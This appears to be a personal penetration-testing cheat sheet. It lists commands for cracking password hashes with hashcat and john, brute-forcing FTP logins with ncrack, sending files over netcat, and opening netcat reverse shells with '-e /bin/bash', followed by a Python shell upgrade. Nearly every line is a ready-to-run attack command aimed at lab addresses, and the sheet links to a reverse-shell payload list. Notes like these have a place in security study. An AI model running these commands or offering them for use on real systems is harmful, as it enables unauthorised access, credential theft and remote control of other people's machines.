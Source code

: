 `hash-identifier` herp derp  

`hashcat` i.a. dictionary, brute force, role based hash cracking  
`hashcat -a 3 -m 1700 /home/user/SHA512_hash.txt --increment --increment-min 6 --increment-max 6 -1 ?l?u?d ?1?1?1?1?1?1`  
`-a` attack mode (here `3` - bruteforce), `-m` mode i.e. type of cracked hash (`1700` - SHA512), `-1` create new charset  
 use `-o results.txt` flag OR after cracking - type the same command with appended `--show` 

`john --format=RAW-MD5 --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-50.txt hashestocrack.txt`  

`crunch <min-length> <max-length> <character-pool> -o <file-name>` generates passswords  

`ncrack -U /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt ftp://10.0.2.15:21 -v`  

for encodings [cyberchef](https://cyberchef.org/)  

### Netcat sending files
Listener:
`nc -lvp 4444 > incomig.txt` nc is a symlink of netcat  
TARGET HIGH PORTS  
Common users usually don't have access to ports under 1000  
`-l` - listening (opens port 4444 and pipe input into incoming.txt).  
`v` verbose `p` port 

Sender: 
`nc -nv 10.0.2.5 4444 < exploit.sh`  
`n` no DNS resolution  


### Netcat reverse shell 
Listener:
`nc -lvp 4444`

Target:  
`netcat 10.0.2.4 4444 -e /bin/bash` or `nc -c bash 10.0.0.1 4444`  
`-e` execute that program after connection -> that way you can send commends directly to opened shell via TCP connection (also possible with UDP `ncat --udp 10.0.0.1 4242 -e /bin/bash`)
[other reverse shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Python tty (teletypewriter) wrapper:  
`python -c 'import pty; pty.spawn("/bin/bash")'  
export TERM=xterm  
CTRL+Z  
stty raw -echo; fg`  
